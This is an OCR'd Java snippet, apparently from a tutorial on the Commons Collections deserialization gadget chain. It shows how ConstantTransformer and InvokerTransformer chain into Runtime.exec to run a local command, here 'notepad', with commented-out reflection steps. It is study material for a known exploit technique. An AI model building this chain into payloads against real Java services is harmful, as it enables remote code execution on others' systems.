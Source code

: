 ```java
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections2Test {

    public static void main(String[] args) throws Exception {
        // 定义需要执行的本地系统命令
        String cmd = "notepad";

        // ChainedTransformer调用链分解

//		// new ConstantTransformer(Runtime.class
//		Class<?> runtimeClass = Runtime.class;
//
//		// new InvokerTransformer("getMethod", new Class[]{
//		// 		String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
//		// ),
//		Class  cls1       = runtimeClass.getClass();
//		Method getMethod  = cls1.getMethod("getMethod", new Class[]{String.class, Class[].class});
//		Method getRuntime = (Method) getMethod.invoke(runtimeClass, new Object[]{"getRuntime", new Class[0]});
//
//		// new InvokerTransformer("invoke", new Class[]{
//		// 		Object.class, Object[].class}, new Object[]{null, new Object[0]}
//		// )
//		Class   cls2         = getRuntime.getClass();
//		Method  invokeMethod = cls2.getMethod("invoke", new Class[]{Object.class, Object[].class});
//		Runtime runtime      = (Runtime) invokeMethod.invoke(getRuntime, new Object[]{null, new Class[0]});
//
//		// new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
//		Class  cls3       = runtime.getClass();
//		Method execMethod = cls3.getMethod("exec", new Class[]{String.class});
//		execMethod.invoke(runtime, cmd);

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };

        // 创建ChainedTransformer调用链对象
        Transformer transformedChain = new ChainedTransformer(transformers);

        // 执行对象转换操作
        Object transform = transformedChain.transform(null);

        System.out.println(transform);
    }

    }

```

